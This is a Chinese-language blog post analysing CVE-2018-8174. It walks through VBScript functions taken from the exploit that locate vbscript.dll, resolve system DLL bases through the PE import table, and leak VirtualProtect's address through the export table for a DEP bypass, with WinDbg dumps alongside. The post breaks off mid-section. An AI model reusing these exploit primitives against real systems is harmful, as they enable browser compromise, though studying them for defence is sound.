







# [CVE-2018-8174分析之二] 借助PE结构Bypass ALSR

拿CVE-2018-8174 中的代码片段为例，大致学习了PE结构、以及如何利用该结构bypass ALSR

参考：

https://blog.csdn.net/Apollon_krj/article/details/77069342

http://www.cnblogs.com/SkyMouse/archive/2012/05/10/2493725.html

https://blog.csdn.net/Apollon_krj/article/details/77337333

https://blog.csdn.net/evi10r/article/details/7216467

1. 拿到vbs对象虚表指针后，如何得到vbscript.dll的地址？
```
Function GetBaseByDOSmodeSearch(IllIll)
    Dim llIl
    llIl=IllIll And &hffff0000
    Do While GetUint32(llIl+(104))<>544106784 Or GetUint32(llIl+(108))<>542330692
        llIl=llIl-65536
    Loop
    GetBaseByDOSmodeSearch=llIl
End Function

vbs_base=GetBaseByDOSmodeSearch(vt_adrr)
```




可以看到PE头部其实有很多偏移固定的值，比如MZ头、“DOS Mode”等等， 拿到vbscript中一个对象的虚表地址之后，即可向低地址遍历，寻找固定偏移的值，从而确定vbscript.dll的地址。



2. 根据vbscipt.dll， 如何得到系统dll基址？ 依据导入表信息！
```
Function StrCompWrapper(lIII,llIlIl)
    Dim lIIlI,IIIl
    lIIlI=""
    For IIIl=(&ha2a+726-&Hd00) To Len(llIlIl)-(&h2e1+5461-&H1835)
        lIIlI=lIIlI &Chr(lllII(lIII+IIIl))
    Next
    StrCompWrapper=StrComp(UCase(lIIlI),UCase(llIlIl))
End Function
Function GetBaseFromImport(base_address,name_input)
    Dim import_rva,nt_header,descriptor,import_dir
    Dim IIIIII
    nt_header=GetUint32(base_address+(&h3c))
    IsEmpty(nt_header)
    import_rva=GetUint32(base_address+nt_header+&h80)
    IsEmpty(import_rva)
    import_dir=base_address+import_rva
    IsEmpty(import_dir)
    descriptor=0
    Do While True
        Dim Name
        Name=GetUint32(import_dir+descriptor*(&h14)+&hc)
        If Name=0 Then
            GetBaseFromImport=&hBAAD0000
            Exit Function
        Else
            If StrCompWrapper(base_address+Name,name_input)=0 Then
                Exit Do
            End If
        End If
        descriptor=descriptor+1
    Loop
    IIIIII=GetUint32(import_dir+descriptor*(&h14)+&h10)
    GetBaseFromImport=GetBaseByDOSmodeSearch(GetUint32(base_address+IIIIII))
End Function
msv_base=GetBaseFromImport(vbs_base,"msvcrt.dll")
```

PE头的最后一部分是PE文件可选头，最后0x80大小的结构体成员就描述了dll的各种数据表信息



根据上述描述，我们能确定导入表RVA相对PE header的偏移为0x80

而导入表的内容则是多个大小为0x14字节的_IMAGE_IMPORT_DESCRIPTOR组成，每个_IMAGE_IMPORT_DESCRIPTOR 对应一个dll



关注一下_IMAGE_IMPORT_DESCRIPTOR中的Name和FirstThunk字段，即可轻松获取dll名字及其导出函数地址。得到函数地址，也就能确定dll基址了。


以下调试过程即对应上述寻找思路
```
0:004> dd vbscript
6ae60000  00905a4d 00000003 00000004 0000ffff
6ae60010  000000b8 00000000 00000040 00000000
6ae60020  00000000 00000000 00000000 00000000
6ae60030  00000000 00000000 00000000 000000f0     偏移0x3c处，是PE头RVA
6ae60040  0eba1f0e cd09b400 4c01b821 685421cd
6ae60050  70207369 72676f72 63206d61 6f6e6e61
6ae60060  65622074 6e757220 206e6920 20534f44
6ae60070  65646f6d 0a0d0d2e 00000024 00000000
0:004> dd vbscript+000000f0
6ae600f0  00004550 0004014c 55b000b4 00000000
6ae60100  00000000 210200e0 000a010b 00056800
6ae60110  00010400 00000000 000013e5 00001000
6ae60120  00055000 6ae60000 00001000 00000200
6ae60130  00010006 00010006 00000006 00000000
6ae60140  0006a000 00000400 0007180f 01400002
6ae60150  00040000 00001000 00100000 00001000
6ae60160  00000000 00000010 000023fc 000000a5
0:004> dd 6ae600f0+0x80                           导入表地址
6ae60170  00056890 00000064 0005d000 00008870
6ae60180  00000000 00000000 00000000 00000000
6ae60190  00066000 000034f0 00057628 00000038
6ae601a0  00000000 00000000 00000000 00000000
6ae601b0  00000000 00000000 00038220 00000040
6ae601c0  00000000 00000000 00001000 00000330
6ae601d0  000565cc 00000080 00000000 00000000
6ae601e0  00000000 00000000 7865742e 00000074
0:004> dd vbscript+00056890                   
6aeb6890  0005692c 00000000 00000000 00056920
6aeb68a0  00001000 00056a38 00000000 00000000
6aeb68b0  00056910 0000110c 00056ad4 00000000
6aeb68c0  00000000 00056900 000011a8 00056bf8    导入表内容，每0x14个字节为一个_IMAGE_IMPORT_DESCRIPTOR结构
6aeb68d0  00000000 00000000 000568f4 000012cc
6aeb68e0  00000000 00000000 00000000 00000000
6aeb68f0  00000000 52455355 642e3233 90006c6c
6aeb6900  4e52454b 32334c45 6c6c642e 90909000
0:004> da vbscript+00056920      _IMAGE_IMPORT_DESCRIPTOR结构中偏移0x10是导入dll name的RVA
6aeb6920  "msvcrt.dll"  
0:004> dd vbscript+00001000       _IMAGE_IMPORT_DESCRIPTOR结构中偏移0x14指向IAT中导出函数
6ae61000  75f50d4d 75f4a5b8 75f4f95f 75f4ecf8
6ae61010  75f511e5 75f49ba1 75f4fab0 75f4ad52
6ae61020  75f4dbe0 75f5141b 75f4d9da 75f9e091
6ae61030  75f4f7fa 75f49e3a 75f50b89 75f4bfd9
6ae61040  75f4dbae 75f4f574 75f4e344 75f5012e
6ae61050  75f509e4 75f54b72 75fa6ea9 75f651da
6ae61060  75f4edef 75f4aa61 75f4c24b 75f49e5a
6ae61070  75f4b0c9 75f4fbab 75f4ff45 75f57551
```


3. 如何Leak VirturalProtect 地址，为bypass dep做准备？
```
Function IllIIl(lIII)
    IllIIl=GetUint32(lIII) And (131071-65536)
End Function

Function GetProcAddr(dll_base,name)
    Dim p,export_dir,index
    Dim function_rvas,function_names,function_ordin
    Dim Illlll
    p=GetUint32(dll_base+&h3c)     'PE头RVA
    p=GetUint32(dll_base+p+&h78)   '导出表RVA
    export_dir=dll_base+p
 
    function_rvas=dll_base+GetUint32(export_dir+&h1c)  '导出函数地址表RVA
    function_names=dll_base+GetUint32(export_dir+&h20)  '导出函数名称表RVA
    function_ordin=dll_base+GetUint32(export_dir+&h24)  '导出函数序号表RVA
    index=0
    Do While True            '遍历函数名称表，找到对应函数index
        Dim lllI
        lllI=GetUint32(function_names+index*4)
        If StrCompWrapper(dll_base+lllI,name)=0 Then
            Exit Do
        End If
        index=index+1
    Loop
    Illlll=IllIIl(function_ordin+index*2)    '根据index，在导出序号表中查找函数地址序号，作为下一步查找函数地址表的索引
    p=GetUint32(function_rvas+Illlll*4)      '有了序号，即可定位函数地址RVA
    GetProcAddr=dll_base+p
End Function

VirtualProtectAddr=GetProcAddr(krb_base,"VirtualProtect")
```

导出表相对PE header的偏移为0x78，它的内部结构了解一下：

```
导出表0x28字节

typedef struct _IMAGE_EXPORT_DIRECTORY {
    DWORD   Characteristics;    //未使用
    DWORD   TimeDateStamp;      //时间戳
    WORD    MajorVersion;       //未使用
    WORD    MinorVersion;       //未使用
    DWORD   Name;               //指向该导出表文件名字符串
    DWORD   Base;               //导出表的起始序号
    DWORD   NumberOfFunctions;  //导出函数的个数(更准确来说是AddressOfFunctions的元素数，而不是函数个数) 
    DWORD   NumberOfNames;      //以函数名字导出的函数个数
    DWORD   AddressOfFunctions;     //偏移0x1c, 导出函数地址表RVA:存储所有导出函数地址(表元素宽度为4，总大小NumberOfFunctions * 4)
    DWORD   AddressOfNames;         //偏移0x20, 导出函数名称表RVA:存储函数名字符串所在的地址(表元素宽度为4，总大小为NumberOfNames * 4)
    DWORD   AddressOfNameOrdinals;  //偏移0x24, 导出函数序号表RVA:存储函数序号(表元素宽度为2，总大小为NumberOfNames * 2)
} IMAGE_EXPORT_DIRECTORY, *PIMAGE_EXPORT_DIRECTORY;

地址表可能大于等于名字表，也有可能小于名字表，因为一个函数可能没有名字，也可能有多个名字。
但是一般情况下，名字表均不会大于地址表。并且一个函数必然有地址，不一定有名字，名字表和序号表一一对应。
```

重点关注_IMAGE_EXPORT_DIRECTORY 最后三个Address，它们的关系如下所示


windbg调试过程如下：


